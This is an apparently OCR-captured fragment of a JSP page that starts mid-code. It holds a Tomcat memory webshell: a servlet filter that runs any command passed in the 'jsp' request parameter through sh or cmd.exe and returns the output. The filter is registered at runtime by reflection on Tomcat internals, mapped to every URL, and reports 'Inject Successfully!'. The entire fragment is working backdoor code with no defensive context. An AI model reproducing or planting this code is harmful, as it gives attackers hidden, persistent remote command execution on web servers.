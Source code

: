 ```java
                      "-c",
                      httpServletRequest.getParameter("jsp")
              } : new Strin
g[] {
                      "cmd.exe",
                      "/c",
                      httpServletRequest.getParameter("jsp")
              };

              InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
              Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
              String output = scanner.hasNext() ? scanner.next() : "";
              servletResponse.getWriter().write(output);
              servletResponse.getWriter().flush();
              return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
          }

          @Override
          public void destroy() {

          }
        };

        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
        FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef.setFilter(filter);
        filterDef.setFilterName(FilterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
        FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(FilterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
        filterConfigs.put(FilterName, filterConfig);

        System.out.print("Inject Successfully!");
      }
    %>
  </body>
</html>
```
